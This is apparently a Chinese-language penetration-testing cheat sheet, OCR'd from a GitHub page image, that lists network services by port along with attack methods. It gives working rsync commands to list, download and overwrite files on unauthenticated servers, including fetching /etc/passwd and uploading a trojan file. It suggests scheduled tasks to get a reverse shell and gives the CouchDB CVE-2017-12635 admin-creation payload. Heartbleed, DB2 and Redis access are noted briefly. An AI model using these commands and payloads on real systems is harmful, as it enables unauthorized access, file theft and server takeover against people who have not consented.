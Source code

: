 **DB2**
```

默认端口：5000
攻击方法：
    安全限制绕过：成功后可执行未授权操作（CVE-2015-1922）
参考：
    http://23.94.222.93/bug_detail.php?wybug_id=wooyun-2015-0113071
```


#### 特殊服务类（未授权/命令执行/漏洞）
**443 SSL心脏滴血**
该落地是一个出现在加密程序库OpenSSL的安全漏洞，该程序库广泛用于实现互联网的传输层安全（TLS）协议。
攻击原理是在实现TLS的心跳扩展时没有对输入进行适当验证（缺少边界检查），导致可以读取的数据比应该允许读取的还多。
利用该漏洞，攻击者可以远程读取服务器内存中64K的数据，获取内存中的敏感信息。

**873 Rsync未授权**
rsync是Linux/Unix下的一个远程数据同步工具，可通过LAN/WAN快速同步多台主机间的文件和目录。
由于配置不当，导致任何人可未授权访问rsync，上传本地文件，下载服务器文件。
```

【列目录】
rsync --port=xxx ip::
rsync rsync://192.168.241.142:873/

【看目录】
rsync --port=xxx ip::目录名
rsync rsync://192.168.241.142:873/src/

【文件下载】
rsync --port=xxx ip::目录名 ./
rsync -av rsync://192.168.241.142:873/src/etc/passwd ./

【文件写入】
rsync -av muma.txt rsync://192.168.241.142:873/src/target.txt
利用文件上传设置计划任务来反弹shell
```

**5984 CouchDB未授权**

CVE-2017-12635权限绕过：到/_utils 目录下验证登陆,后续使用反弹shell进行进一步利用
```
PUT /_users/org.couchdb.user:vulhub
{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

**6379 redis未授权**
`./redis-cli -h ip`  直接连接就行了

